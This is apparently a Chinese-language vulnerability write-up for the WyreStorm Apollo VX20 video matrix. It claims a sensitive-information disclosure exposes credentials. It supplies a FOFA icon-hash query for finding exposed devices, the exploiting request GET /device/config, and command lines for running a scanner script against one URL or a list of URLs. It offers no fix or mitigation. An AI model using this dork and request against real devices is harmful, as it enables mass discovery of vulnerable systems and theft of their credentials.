 # WyreStorm Apollo VX20 信息泄露漏洞

### 1.漏洞描述

Apollo VX20具有多个视频输入和输出端口，可以将不同的视频源（如电视机、投影仪、游戏机、电脑等）连接到不同的显示设备上。通过使用Apollo VX20，用户可以轻松切换和控制不同的视频信号，以实现灵活的多源多目标视频分发和管理。

该系统存在敏感信息泄露漏洞，攻击者通过该漏洞可以获取凭证等信息。

### 2.fofa语法

```
icon_hash="-893957814"
```

### 3.漏洞复现

```
GET /device/config HTTP/1.1
```

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719830802788-6a40423c-a93e-4153-89b1-ae633849d9de.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)

### 4.py脚本使用

```
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```

